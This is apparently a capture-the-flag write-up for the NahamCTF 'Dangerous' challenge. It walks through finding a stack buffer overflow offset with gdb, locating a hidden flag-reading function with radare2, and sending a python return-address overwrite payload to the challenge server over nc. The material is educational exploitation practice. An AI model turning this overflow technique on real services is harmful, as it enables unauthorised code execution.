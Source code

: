 ```yaml
---
title: "NahamCTF: Dangerous"
categories:
  - NahamCTF
tags:
  - NahamCTF
---
```


"Hey! Listen!

Connect here:
nc jh2i.com 50011"

For this challenge, we're given a binary called "dangerous". It appears to be stripped, as analyzing it with radare2 doesn't give us many functions to call. 

Running the binary prompts us for our name, then tells us to "Take this":

```
What's your name?
anti
It's dangerous to go alone! Take this, anti

         █   
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
      ███████
      █ ███ █
        ███  
        ███  
        ███  

```

To see if this is vulnerable to a buffer overflow, we'll open it up in gdb, and see if we can get it to segfault:

```
gdb ./dangerous

gdb-peda$ pattern create 700

r <<< $(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%B
A%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0A
sFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6AsLAshAs7AsMAsiAs8AsNAsjAs9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB
4ABJABfAB5ABKABgAB6')

...
RSP: 0x7fffffffe0d8 ("s6AsLAshAs7AsMA")
...
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040130d in ?? ()

```

The interesting part of this is the RSP register, as it has part of our pattern in it, so we can use gdb's pattern search feature to find it:

```
pattern search s6AsLAshAs7AsMA
...
RBP+0 found at offset: 489
Registers point to pattern buffer:
[RSP] --> offset 497 - size ~15
...
```

If we swap the pattern out for A's and B's with python, we can very that we have RIP control:

```
gdb-peda$ r <<< $(python -c 'print "A"*497 + "B"*4')
...
RIP: 0x7f0a42424242
...
```

We now know that we have a buffer overflow vulnerability, and that we have control of the execution flow of the program.

We'll start our process of exploitation with radare2:

```
r2 -d dangerous
aaa
afl
```

We can see that we don't have any functions that we can call, so we'll step through the binary and see what it's doing.

```
[0x7ffff7fd5090]> dc
What's your name?
```

Here, we want to CTRL+C so that we can step into the syscall, without it continuing execution after we enter our input:

```
*What's your name?*
[0x7ffff7ed85ce]> ds
anti
[0x7ffff7ed85ce]>
```

Now, we can enter visual mode and step through the binary by hitting s. After stepping three to four times, we can see an interesting portion of the assembly that appears to be opening flag.txt, reading it, and outputting it to the screen:

```
0x00401312      55             push rbp                                                                                                      
0x00401313      4889e5         mov rbp, rsp                                                                                                  
0x00401316      4881ec100200.  sub rsp, 0x210                                                                                                
0x0040131d      be00000000     mov esi, 0                                                                                                    
0x00401322      488d3d160f00.  lea rdi, qword str.._flag.txt    ; 0x40223f ; "./flag.txt"                                                    
0x00401329      b800000000     mov eax, 0                                                                                                    
0x0040132e      e8adfdffff     call sym.imp.open         ;[2]                                                                                
0x00401333      8945fc         mov dword [rbp - 4], eax                                                                                      
0x00401336      488d8df0fdff.  lea rcx, qword [rbp - 0x210]                                                                                  
0x0040133d      8b45fc         mov eax, dword [rbp - 4]                                                                                      
0x00401340      ba00020000     mov edx, 0x200            ; rdx                                                                               
0x00401345      4889ce         mov rsi, rcx                                                                                                  
0x00401348      89c7           mov edi, eax                                                                                                  
0x0040134a      e871fdffff     call sym.imp.read         ;[3]                                                                                
0x0040134f      8b45fc         mov eax, dword [rbp - 4]                                                                                      
0x00401352      89c7           mov edi, eax                                                                                                  
0x00401354      e857fdffff     call sym.imp.close        ;[4]                                                                                
0x00401359      488d85f0fdff.  lea rax, qword [rbp - 0x210]                                                                                  
0x00401360      4889c7         mov rdi, rax                                                                                                  
0x00401363      e828fdffff     call sym.imp.puts         ;[1]                                                                                
0x00401368      90             nop                                                                                                           
0x00401369      c9             leave                                                                                                         
0x0040136a      c3             ret
```

Since there isn't a function that directly calls this, we'll have to jump directly to this memory address. Before we continue, we'll want to create a fake flag in the same directory as the binary, named flag.txt. For this challenge, we'll put "flag{hellothere}" in the flag.txt file.

Now that we have an address to jump to, and we know where the buffer overflows, we can build our exploit:

```
python -c 'print "A"*497 + "\x12\x13\x40\x00\x00\x00\x00\x00"' | ./dangerous

What's your name?
It's dangerous to go alone! Take this, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
         █   
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
      ███████
      █ ███ █
        ███  
        ███  
        ███  

flag{hellothere}
e! Take this, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Nice, we know that it works now, so we'll aim it at the server, and fire it!

```
python -c 'print "A"*497 + "\x12\x13\x40\x00\x00\x00\x00\x00"' | nc jh2i.com 50011
What's your name?
It's dangerous to go alone! Take this, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
         █   
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
      ███████
      █ ███ █
        ███  
        ███  
        ███  

flag{legend_of_zelda_overflow_of_time}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

There's our flag!

**flag{legend_of_zelda_overflow_of_time}**

